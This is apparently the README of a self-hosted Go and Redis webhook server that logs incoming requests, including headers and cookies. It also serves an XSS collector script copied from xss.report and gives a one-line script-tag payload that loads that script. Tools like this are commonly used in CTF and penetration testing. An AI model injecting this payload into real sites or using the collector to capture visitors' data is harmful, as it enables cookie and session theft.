 # Adh

This project is nothing innovative or groundbreaking.
I just wanted to create my own webhook to deploy on a VPS, avoiding dependencies on tools like webhook.site, localtunnel, ngrok, or other similar services. It is fully customizable, and you can use it for various purposes like logging, request handling, or data collection.

### Overview

The core of this project is a simple webhook server that listens for incoming HTTP requests, logs the relevant information, and stores request data in Redis. It is built with Go for the backend and uses Redis for storage. The project aims to be lightweight, flexible, and simple to set up, but with room for expansion (such as adding a dashboard).

![img](/images/adh-schema.png)

### Features

- **Data Logging**: Logs requests including headers, cookies, body content, and user agent.
- **Redis Integration**: Store incoming request data in Redis, making it easy to scale or manage.
- **Exploit Script**: Serve a simple exploit script for XSS attacks (stealed from xss.report).
- **High customizability**: Customize the server to fit your needs.

### Dashboard

### Dashboard

Below are some screenshots of the dashboard:

| ![Dashboard1](/images/adh-dashboard1.png) | ![Dashboard2](/images/adh-dashboard2.png) |
|-------------------------------------------|-------------------------------------------|
| ![Dashboard3](/images/adh-dashboard3.png) | ![Dashboard4](/images/adh-dashboard4.png) |



### Installation

To get started with the Adh, follow the steps below:

#### Prerequisites

- A machine exposed to the Internet (this tool is not a tunnelling solution such as ngrok or Localtunnel).
- Docker and Docker Compose installed on your machine.

#### Clone the Repository

```bash
git clone https://github.com/akiidjk/adh.git
cd adh
```

#### Set Up Docker Containers

1. Modify your environment variables in the `.env` file to suit your configuration based on the provided example.

```
PORT=8000
ADDR=0.0.0.0
LOG_LEVEL=info
REDIS_ADDR=redis
REDIS_PORT=6379
REDIS_URL=redis://redis:6379
USER_ID=0
USER_NAME=akiidjk
USER_PASSWORD=akiidjk
SECRET_KEY=polpetta
```

2. Now you can build and start your containers with:

```bash
docker-compose up --build -d
```

#### Access the Webhook

Once the containers are running, you can access your webhook on:

```
http://localhost:8000
```

The server will now be accepting requests on the specified port (8000 by default).

### Configuration

The following environment variables are available for customization:

- **REDIS_ADDR**: Address of the Redis server. Defaults to `localhost` or `redis` if using Docker.
- **REDIS_PORT**: Port for the Redis server. Defaults to `6379`.
- **REDIS_PASS**: Redis password (if needed).
- **LOG_LEVEL**: Log level for the application. Options are `debug`, `info`, `warn`, `error`. Defaults to `info`.
- **REDIS_URL**: URL of the Redis server. Defaults to `redis://localhost:6379`.
- **USER_ID**: User ID for the application. Defaults to `admin`.
- **USER_NAME**: User name for the application. Defaults to `admin`.
- **USER_PASS**: User password for the application. Defaults to `Admin`.
- **SECRET_KEY**: Secret key for the application. Defaults to `secret`.

### Health Check

The Redis health check is handled by a background goroutine that pings Redis periodically to ensure it's available. The health status is reported through a channel, and you can customize the interval as needed.

### Log Storage

The application saves all logs to a folder on your host machine. The logs are stored in the `./adh-webhook/logs` directory on your host system, ensuring that the logs persist even when the container is restarted or destroyed. This is done via Docker bind mounts, which map the `./adh-webhook/logs` folder on your local machine to `/var/log/webhook` in the container.

### Example Request

You can send a test request to the webhook with tools like `curl`:

```bash
curl -X POST http://localhost:8000 -H "Content-Type: application/json" -d '{"key":"value"}'
```

### XSS Script

In the path `/_`, the server returns a JS script which sends a request to the server (to be modified in case it is not localhost:8000) with data in a particular way.

The script is *‘stolen’* from xss.report

A simple payload for get an xss is `<script src="http://localhost:8000/_"></script>`

### To-Do

- ~~**Dashboard**: The current project lacks a UI dashboard to visualize requests and data. This will be added in the future (In progess).~~
- ~~**Authentication**: Implement an authentication mechanism to restrict access to the webhook dashboard.~~
- ~~Fix http problem with Docker~~

### Contributing

Contributions are welcome! Feel free to fork the repository, create issues, and submit pull requests.

### License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

---

### Conclusion

The Adh Webhook is a flexible and lightweight solution for managing incoming webhooks with custom logging and Redis storage. It's easily deployable with Docker and offers the flexibility to customize headers, storage, and more.
